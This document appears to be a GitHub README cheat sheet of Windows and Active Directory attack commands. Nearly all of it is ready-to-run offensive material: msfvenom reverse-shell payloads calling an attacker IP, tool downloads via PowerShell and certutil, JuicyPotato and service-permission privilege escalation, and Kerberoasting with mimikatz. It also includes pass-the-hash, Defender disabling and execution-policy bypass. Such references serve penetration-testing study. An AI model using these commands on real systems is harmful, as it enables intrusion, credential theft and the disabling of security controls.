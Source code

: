 # Windows-AD-attacking

Anything about **Windows / Active Directory** will be posted here ..


## < Generate shells >

**[+] Create reverse shell using msfvenom**

```
// Meterpreter
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
// TCP
msfvenom -p  windows/shell/reverse_tcp LHOST=192.168.119.126 LPORT=443 -f exe > reverse.exe
```

## < Transfer files >

**[+] Upload file using Powershell**

```
powershell.exe $ProgressPreference = 'SilentlyContinue'; Invoke-WebRequest http://192.168.50.48/ASREPRoast.ps1 -OutFile C:\users\hitman\ASREPRoast.ps1
```

**[+] Upload file using certutil.exe**

```
certutil.exe -urlcache -f http://192.168.50.48/Rubeus.exe C:\users\hitman\Rubeus.exe
```

**[+] Transfer files using rdesktop tool (Available in Kali Linux)**

```
- In Kali linux
mkdir /home/hitman/shared
rdesktop -f 192.168.50.48 -r disk:linux=/home/hitman/shared
- Now in Windows's RDP
Go to Network Places -> Entire Network -> Microsoft Terminal Services -> tsclient
and put your files there, you will find them in Kali too
Note: You can access the share \\tsclient directly too
```

## < Privilege escalation >

**[+] Privilege escalation using juicy potato (Sometimes you need to attach CLSID)**

```
JuicyPotato.exe -l 13373 -p c:\windows\system32\cmd.exe -a "/c c:/users/public/reverse.exe" -t *
```

**[+] PowerUp.ps1 "Good powershell script for windows privilege escalation"**

```
C:> powershell.exe -nop -exec bypass

PS C:\> Import-Module PowerUp.ps1

PS C:\> Invoke-AllChecks | Out-File -Encoding ASCII checks.txt
```

**[+] Weak service permissions privilege escalation**

```
C:\Users\victim\Desktop>accesschk64 -uwcqv "victim" *

Accesschk v6.14 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

RW SNMPTRAP
        SERVICE_ALL_ACCESS

C:\Users\victim\Desktop>sc qc SNMPTRAP

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SNMPTRAP
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\System32\snmptrap.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : SNMP Trap
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem

C:\Users\victim\Desktop>sc config SNMPTRAP binpath= "net localgroup administrators victim /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc config SNMPTRAP obj= ".\LocalSystem" password= ""

[SC] ChangeServiceConfig SUCCESS

C:\Users\victim\Desktop>sc start SNMPTRAP
```

## < Kerberos / tickets >

**[+] Request Ticket (powershell)**

```
Add-Type -AssemblyName System.IdentityModel  

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLService/ufc-db1.us.funcorp.local"  
```

**[+] Export Tickets using mimikatz**

```
mimikatz # kerberos::list /export  
```

**[+] Crack ticket using Tgsrepcrack.py (You can use john too or hashcat)**

```
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.hitmanalharbi.local~1433-boo.LOCAL.kirbi  
```

**[+] Kerberos Double-Hop problem**

```
Invoke-Command -ComputerName UFC-JUMPSRV -Credential $cred -ScriptBlock {
    Invoke-Command -ComputerName UFC-WEBPROD -Credential $Using:cred -ScriptBlock {
		& cmd /c "hostname"    
    }
} 
```

## < Pass the hash / PTH >

**[+] Pass the hash using pth-winexe (Available in Kali Linux)**

```
pth-winexe -U USER%aad3b435b51404eeaad3b435b51404ee:NTLM //IP cmd
```

**[+] Access RDP using pass the hash (xfreerdp tool)**

```
xfreerdp /u:username /pth:NTLM /d:domain /v:IP
```

**[+] Pass the hash using PsExec.py**

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:NTLM sqldevadmin@192.168.50.49
```

## < Enumeration >

**[+] enum SMB shares using smbclient (Smbclient available in Kali Linux)**

```
smbclient -L IP
```

**[+] Sharphound command (For bloodhound)**

```
// EXE version
./SharpHound.exe --CollectionMethod All

// Powershell version
Invoke-BloodHound -CollectionMethod All
```

## < Bypass security / AV evasion >

**[+] Bypass Powershell Execution Policy**

```
Set-ExecutionPolicy -ExecutionPolicy Unrestricted

or run powershell like this:

powershell.exe -ep bypass
```

**[+] Disable windows defender**

```
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v DisableRealtimeMonitoring /t REG_DWORD /d 1

powershell.exe Set-MpPreference -DisableRealtimeMonitoring $true
```

## < Misc commands >

**[+] Enable RDP and allow it in the firewall too**

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
